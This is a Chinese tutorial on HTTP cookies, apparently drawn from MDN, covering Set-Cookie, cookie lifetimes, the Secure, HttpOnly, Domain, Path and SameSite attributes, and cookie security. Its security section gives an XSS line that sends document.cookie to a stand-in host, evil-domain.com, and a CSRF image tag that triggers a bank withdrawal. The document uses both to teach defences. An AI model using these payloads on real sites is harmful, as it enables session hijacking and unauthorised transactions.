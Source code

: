 # HTTP Cookie
HTTP Cookie（也叫Web Cookie或浏览器Cookie）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于无状态的HTTP协议记录稳定的状态信息成为了可能。

Cookie主要用于以下三个方面：
* 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
* 个性化设置（如用户自定义设置、主题等）
* 浏览器行为跟踪（如跟踪分析用户行为等

Cookie曾一度用于客户端数据的存储，因当时并没有其它合适的存储办法而作为唯一的存储手段，但现在随着现代浏览器开始支持各种各样的存储方式，Cookie渐渐被淘汰。由于服务器指定Cookie后，浏览器的每次请求都会携带Cookie数据，会带来额外的性能开销（尤其是在移动环境下）。新的浏览器API已经允许开发者直接将数据存储到本地，如使用 Web storage API （本地存储和会话存储）或IndexedDB。

## 创建Cookie
当服务器收到HTTP请求时，服务器可以在响应头里面添加一个`Set-Cookie`选项。浏览器收到响应后通常会保存下Cookie，之后对该服务器每一次请求中都通过`Cookie`请求头部将Cookie信息发送给服务器。另外，Cookie的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

### Set-Cookie响应头部和Cookie请求头部
服务器使用`Set-Cookie`响应头部向用户代理（一般是浏览器）发送Cookie信息。一个简单的Cookie可能像这样：
```
Set-Cookie: <cookie名>=<cookie值>
```
服务器通过该头部告知客户端保存Cookie信息。   
现在，对该服务器发起的每一次新请求，浏览器都会将之前保存的Cookie信息通过Cookie请求头部再发送给服务器。

### 会话期Cookie
会话期Cookie是最简单的Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。会话期Cookie不需要指定过期时间（Expires）或者有效期（Max-Age）。需要注意的是，有些浏览器提供了会话恢复功能，这种情况下即使关闭了浏览器，会话期Cookie也会被保留下来，就好像浏览器从来没有关闭一样。

### 持久性Cookie
和关闭浏览器便失效的会话期Cookie不同，持久性Cookie可以指定一个特定的过期时间（`Expires`）或有效期（`Max-Age`）。

### Cookie的`Secure`和`HttpOnly`标记
标记为`Secure`的`Cookie`只应通过被HTTPS协议加密过的请求发送给服务端。但即便设置了`Secure`标记，敏感信息也不应该通过Cookie传输，因为Cookie有其固有的不安全性，`Secure`标记也无法提供确实的安全保障。从 Chrome 52 和 Firefox 52 开始，不安全的站点（http:）无法使用Cookie的 Secure 标记。

为避免跨域脚本 (XSS) 攻击，通过JavaScript的 `Document.cookie` API无法访问带有`HttpOnly`标记的Cookie，它们只应该发送给服务端。如果包含服务端Session信息的 Cookie不想被客户端JavaScript脚本调用，那么就应该为其设置HttpOnly标记。

### Cookie的作用域
`Domain`和`Path`标识定义了Cookie的作用域：即Cookie应该发送给哪些URL。

`Domain`标识指定了哪些主机可以接受Cookie。如果不指定，默认为当前文档的主机（不包含子域名）。如果指定了`Domain`，则一般包含子域名。

例如，如果设置`Domain=mozilla.org`，则Cookie也包含在子域名中（如`developer.mozilla.org`）。

`Path`标识指定了主机下的哪些路径可以接受Cookie（**该URL路径必须存在于请求URL中**）。以字符 `%x2F` ("/") 作为路径分隔符，子路径也会被匹配。

例如，设置`Path=/docs`，则以下地址都会匹配：

* `/docs`
* `/docs/Web/`
* `/docs/Web/HTTP`

### `SameSite` Cookies
`SameSite`Cookie允许服务器要求某个cookie在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）。但目前`SameSite`Cookie还处于实验阶段，并不是所有浏览器都支持。

### JavaScript通过`Document.cookies`访问Cookie
通过`Document.cookie`属性可创建新的Cookie，也可通过该属性访问非HttpOnly标记的Cookie。

请留意在安全节提到的安全隐患问题，JavaScript可以通过跨站脚本攻击（XSS）的方式来窃取Cookie。

## 安全

### 会话劫持和XSS
在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

### 跨站请求伪造（CSRF）
维基百科已经给了一个比较好的CSRF例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：
```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

对用户输入进行过滤来阻止XSS；
任何敏感操作都需要确认；
用于敏感信息的Cookie只能拥有较短的生命周期；
更多方法可以查看OWASP CSRF prevention cheat sheet。

## 总结
目前下列字段可以被设置在服务端Set-cookie时设置：
  1. Expires：过期时间
  2. Max-Age：有效期时长
  3. Secure：cookie只应通过被HTTPS协议加密过的请求发送给服务端
  4. HttpOnly：Document.cookie API无法访问带有 HttpOnly 标记的Cookie
  5. Domain：标识指定了哪些主机可以接受Cookie
  6. Path：标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中）
  7. SameSite：Cookie允许服务器要求某个cookie在跨站请求时不会被发送

参考资料：   
[https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)
